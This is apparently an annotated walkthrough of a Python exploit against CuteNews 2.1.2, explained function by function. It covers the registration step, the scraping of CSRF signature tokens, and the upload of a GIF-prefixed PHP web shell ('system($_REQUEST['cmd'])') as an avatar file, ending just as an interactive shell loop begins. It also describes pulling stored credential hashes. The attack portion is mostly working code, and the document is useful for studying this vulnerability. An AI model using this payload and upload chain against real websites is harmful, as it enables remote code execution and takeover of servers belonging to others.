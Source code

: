```python
```

This part of exploit establishes a session with the given URL and looks for the path `/CuteNews/cdata/users/lines`, this path is where there are base64 encoded credentials stored in `CuteNews 2.1.2`. After it gets the encoded creds, it tries to base64 decode it and prints it in simple and readable form. The variable name suggests that the decoded credentials are not plain text but are SHA hashed (SHA256 to be precise).

---

register
```python
def register():
    global sess, ip
    userpass = "".join(random.SystemRandom().choice(string.ascii_letters + string.digits ) for _ in range(10))
    postdata = {
        "action" : "register",
        "regusername" : userpass,
        "regnickname" : userpass,
        "regpassword" : userpass,
        "confirm" : userpass,
        "regemail" : f"{userpass}@hack.me"
    }
    register = sess.post(f"{ip}/CuteNews/index.php?register", data = postdata, allow_redirects = False)
    if 302 == register.status_code:
        print (f"[+] Registration successful with username: {userpass} and password: {userpass}")
    else:
        sys.exit()
```

This part of the exploit creates a random string and uses it as the credentials to create a new account on `CuteNews 2.1.2` powered website.

---

send_payload
```python
payload = "GIF8;\n<?php system($_REQUEST['cmd']) ?>"

def send_payload(payload):
    global ip
    token = sess.get(f"{ip}/CuteNews/index.php?mod=main&opt=personal").text
    signature_key = re.search('signature_key" value="(.*?)"', token).group(1)
    signature_dsi = re.search('signature_dsi" value="(.*?)"', token).group(1)
    logged_user = re.search('disabled="disabled" value="(.*?)"', token).group(1)
    print (f"signature_key: {signature_key}")
    print (f"signature_dsi: {signature_dsi}")
    print (f"logged in user: {logged_user}")

    files = {
        "mod" : (None, "main"),
        "opt" : (None, "personal"),
        "__signature_key" : (None, f"{signature_key}"),
        "__signature_dsi" : (None, f"{signature_dsi}"),
        "editpassword" : (None, ""),
        "confirmpassword" : (None, ""),
        "editnickname" : (None, logged_user),
        "avatar_file" : (f"{logged_user}.php", payload),
        "more[site]" : (None, ""),
        "more[about]" : (None, "")
    }
    payload_send = sess.post(f"{ip}/CuteNews/index.php", files = files).text
    print("============================\nDropping to a SHELL\n============================")
    while True:
```